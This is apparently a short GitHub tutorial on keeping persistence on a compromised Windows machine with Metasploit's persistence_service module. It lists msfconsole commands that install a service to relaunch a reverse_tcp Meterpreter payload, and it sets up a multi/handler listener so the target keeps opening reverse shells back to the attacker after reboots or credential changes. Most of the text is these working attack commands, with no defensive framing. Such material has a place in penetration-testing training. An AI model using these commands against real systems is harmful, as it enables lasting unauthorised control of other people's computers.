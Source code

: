 # Establishing Persistence via Windows Services
#### HOW THIS MODULE WORKS?

This module will generate a payload with MSF Venom and that payload will be then uploaded to the target. The Post Exploitation module will then create a new service which will start the payload when it runs.
<br>
1. Gain an initial Meterpreter shell session and Require Admin Privileges.
2. Background the current session and load the following module
3. Set the options and run the exploit

```
use exploit/windows/local/persistence_service
set SESSION 2
set LPORT 4433
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```

4. This exploit will create a persistence service that runs on the Target system.
5. This means even if the system is shutdown or credentials are changed, the service we created still exist on the system and sends reverse shell connections back to our local machine.
6. These connections can be captured by setting up a listener.

```
use multi/handler
set LHOST eth1
set LPORT 4433
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```
